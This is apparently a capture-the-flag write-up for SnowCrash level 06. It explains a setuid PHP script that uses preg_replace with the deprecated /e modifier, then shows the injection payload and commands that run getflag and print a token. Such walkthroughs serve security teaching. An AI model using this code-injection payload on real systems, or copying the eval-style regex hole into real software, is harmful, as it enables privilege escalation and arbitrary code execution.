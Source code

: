 # Level 06

## Vulnerability
Privilege escalation - PHP code injection

Deprecated /e regex modifier in script owned by privileged user

## Context
```
level06@SnowCrash:~$ ls -l
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

## Solution
The binary ```level06``` is executed as user flag06, thanks to the suid bit. We should be able to exploit this, and have it run getflag for us. Lets look at the .php file and investigate how.
```
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
    }
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
    }
$r = x($argv[1], $argv[2]);
print $r;
?>
```
We find preg_replace() used with the /e modifier. The [official doc](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) tells us this modifier is depecrated because it introduces a vulnerability:
> If this deprecated modifier is set, preg_replace() does normal substitution of backreferences in the replacement string, evaluates it as PHP code, and uses the result for replacing the search string.

> Caution: Use of this modifier is discouraged, as it introduces remote code execution vulnerabilities. An attacker can execute arbitrary PHP code and gain access to the server.

The script prints the content of given variable "x". Using ``` `getflag` ``` as the variable name, we can print the return value of getflag.

So lets create a file whose content matches the regexp test ```"/(\[x (.*)\])/e"```, and inject ``` `getflag` ``` in correct [php syntax](https://www.php.net/manual/en/language.types.string.php#language.types.string.syntax.nowdoc).
```
level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /dev/shm/getflag
level06@SnowCrash:~$ ./level06 /dev/shm/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```
